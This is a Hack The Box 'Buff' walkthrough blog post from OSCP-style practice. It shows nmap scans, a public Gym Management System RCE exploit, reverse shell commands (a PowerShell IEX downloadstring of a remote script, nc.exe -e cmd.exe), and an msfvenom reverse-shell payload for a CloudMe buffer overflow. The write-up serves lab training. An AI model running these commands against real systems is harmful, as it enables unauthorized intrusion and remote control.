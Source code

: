 ```yaml
---
layout: post
title: HTB Buff Walkthrough
categories: [HTB, OSCP]
---
```


As I was dedicated to place one box every day i was planning to put another box. I hit hard bottom for some reason exploit is not working and I have no clue how to move now. So i decide to take break on this machine and try break another one in few hours in night and try write blog about this. And here we are. Please enjoy this box as I did :)

![](/images/buff-htb/logo.png)

I started with simple nmap script

```bash
nmap -sC -sV -oA nmap/inital -Pn 10.10.10.198
# Nmap 7.91 scan initiated Mon Feb  1 22:17:42 2021 as: nmap -sC -sV -oA nmap/inital -Pn 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up.
All 1000 scanned ports on 10.10.10.198 are filtered

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb  1 22:21:04 2021 -- 1 IP address (1 host up) scanned in 202.13 seconds
```

Scan did not show any ports which was really strange. Ok try nmap on all TCP ports

```bash
nmap -p - -oA nmap/allports -Pn 10.10.10.198
# Nmap 7.91 scan initiated Mon Feb  1 22:22:06 2021 as: nmap -p - -oA nmap/allports -Pn 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up (0.15s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxy

# Nmap done at Mon Feb  1 22:27:07 2021 -- 1 IP address (1 host up) scanned in 301.37 seconds
```

One port open 8080 as http-proxy. I open firefox and navigate to this site on this port

![](/images/buff-htb/01-signature.png)

Website looks like CMS site but signature on this website was quite different.. Google for this name.

![](/images/buff-htb/02-gym-exploit.png)

Bingo! There is an exploit for it. Also check in searchsploit.

```bash
searchsploit gym management
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Gym Management System 1.0 - 'id' SQL Injection                                     | php/webapps/48936.txt
Gym Management System 1.0 - Authentication Bypass                                  | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site Scripting                            | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated Remote Code Execution                  | php/webapps/48506.py
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Unauthenticated Remote COde Execution? That sounds like gun i need :) 

```bash
python 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload>
```

I was in. Tried to get proper shell now. *powershell -c "IEX(new-object net.webclient).downloadstring('http://10.10.14.9/shell.ps1')" *
did not work :/

```powershell
C:\xampp\htdocs\gym\upload> \\10.10.14.9\smb\nc.exe -e cmd.exe 10.10.14.9 9001
```

Try to run nishang shell now as i can see output. I also can just run -e with powershell.exe. 
```powershell
C:\xampp\htdocs\gym\upload>powershell -c "IEX(new-object net.webclient).downloadstring('http://10.10.14.9/shell.ps1')"
powershell -c "IEX(new-object net.webclient).downloadstring('http://10.10.14.9/shell.ps1')"
IEX : At line:1 char:1
+ function Invoke-PowerShellTcp
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.                              
At line:1 char:1
+ IEX(new-object net.webclient).downloadstring('http://10.10.14.9/shell ... 
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
     + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
     + FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand
```

So it was AMSI that blocked me. Looking around home directory I found application called clouedme

```powershell
C:\Users\Administrator\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\Users\Administrator\Downloads

18/07/2020  16:36    <DIR>          .
18/07/2020  16:36    <DIR>          ..
16/06/2020  15:46        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   7,882,407,936 bytes free
```

Quick google search reveal that this version contain buffer overflow exploit. 

![](/images/buff-htb/03-bof-root.png)

i checked for first exploit. Looking for the exploit it need to connect on port 8888. 

```powershell
C:\Users\Administrator\Downloads>netstat -ano | findstr 8888      
netstat -ano | findstr 8888
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       756
```

Our exploit contain POC for pop-up calc on desktop which did not make any sense for us. We decide to change payload to reverse shell
```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.9 LPORT=9002 =b '\x00\x0A\x0D' -f python
```

Replace shellcode with new one generated. Now i need to expose localhost port me as i was not planning to install python on this machine. I used plink.exe. (there is an issue with plink.exe default on machine. Always download latest version from website)

PS C:\users\shaun\downloads> .\plink.exe -R 8888:127.0.0.1:8888 -P 4222 root@10.10.14.9

I had to use non standard port as HTB will not allow to connect on port 22.

After that just lunch me netcat session and execute python script

![](/images/buff-htb/04-root.png)
